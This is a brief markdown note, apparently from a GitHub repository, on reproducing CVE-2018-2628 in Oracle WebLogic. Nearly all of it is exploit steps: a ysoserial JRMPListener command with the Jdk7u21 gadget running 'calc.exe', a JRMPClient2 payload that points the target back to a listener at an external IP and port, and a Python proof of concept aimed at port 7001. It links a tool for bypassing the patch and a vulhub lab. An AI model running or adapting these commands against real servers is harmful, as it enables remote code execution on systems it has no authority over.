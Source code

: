 # CVE-2018-2628

**weblogic**



[GitHub - tdy218/ysoserial-cve-2018-2628: Some codes for bypassing Oracle WebLogic CVE-2018-2628 patch](https://github.com/tdy218/ysoserial-cve-2018-2628)

## Reappear

### JRMPListener

```bash
java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener 22801 Jdk7u21 "calc.exe"
```

### Payload

```bash
java -jar ysoserial-0.1-cve-2018-2628-all.jar JRMPClient2 47.94.158.125:22801 | xxd -p | tr -d $'\n' && echo 
```

### Poc

```bash
python wls-cve-2018-2628-poc.py 192.168.64.83 7001
```



## Reference

[vulhub/weblogic/CVE-2018-2628 at master · vulhub/vulhub · GitHub](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2018-2628)
